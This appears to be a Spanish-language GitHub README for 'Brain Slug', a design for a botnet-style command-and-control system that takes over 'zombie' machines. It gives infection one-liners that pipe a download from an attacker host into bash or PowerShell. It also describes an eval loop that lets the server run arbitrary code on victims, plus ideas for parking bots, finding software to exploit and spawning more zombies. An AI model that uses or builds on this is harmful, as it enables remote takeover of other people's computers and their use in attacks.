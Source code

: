 # Brain Slug

Universal Zombie Control Interface

## Concepto

Brain Slug consta de varias partes más pequeñas:
  * Un código de infección de la máquina que hace un curl | interpreteX
  * Un Y combinator en el interprete seleccionado
  * Una sesión de servidor con la que se puede controla el flujo sin que el cliente tenga ningún tipo de lógica

###Infección

Esta se lleva a cabo a través de un curl:

```bash
curl "http://elmal:666/register" | bash
```

Incluso en windows 10:
```powershell
curl "http://elmal:666/register" | powershell.exe
```

### Combinador Y aplanado

Para que el control de la siguiente instrucción a ejecutar este en el servidor el cliente hará en sus
llamadas el siguiente flujo:

```
operacion, siguiente = eval(codigoLlegadaAlServidor)
while(True):
  eval(operacion)
  operacion, siguiente = eval(siguiente)
```

En siguiente puede estar una nueva llamada al servidor, a otro servidor, o terminar la sesión.

### Sesión de servidor
En la sesión de servidor se gestiona para cada cliente su estado en la ejecución. De forma que 
cuando un cliente pregunte por la siguiente operación a ejecutar el servidor se lo da de forma
correcta.

A parte de ejecutar operaciones el servidor siempre debe enviar la siguiente instrucción para
que el Y combinator pueda funcionar.

Las operaciones pueden enviar como respuesta a las ejecuciones el resultado de la evaluación
de la operación al servidor para que se guarden en el servidor. O pueden enviar otra orden 
para que se guarden en la memoría del cliente. De esta forma el estado esta compartido entre
ambos sistemas pero el control de flujo esta completamente del lado del servidor.

Todo el código ejecutado desde el servidor debe estar traspilado al interprete del cliente, en
una primera versión se hará un recetario con plantillas como validar la prueba de concepto.


## Ideas secundarias
Se puede tener una sesión de parking con los clientes zombies para los que no se tenga
todavía trabajo de forma que ocupen pocos recursos y nos aseguremos que no se pierde el 
contacto con los mismos.

Se pueden tener diferentes flujos y sesiones de forma que un zombie pueda ejecutar diferentes
"caminos" de ejecución dependiendo de su naturaleza. Por ejemplo, una sesión que detecte
si existe un software en la máquina objetivo y otra sesión especializada en su explotación.

Se pueden tener meta sesiones que orquesten multi tareas en un zombie o multi zombie. Para
esto se necesita abrir un fork en la máquina remota que instancie un nuevo zombie.
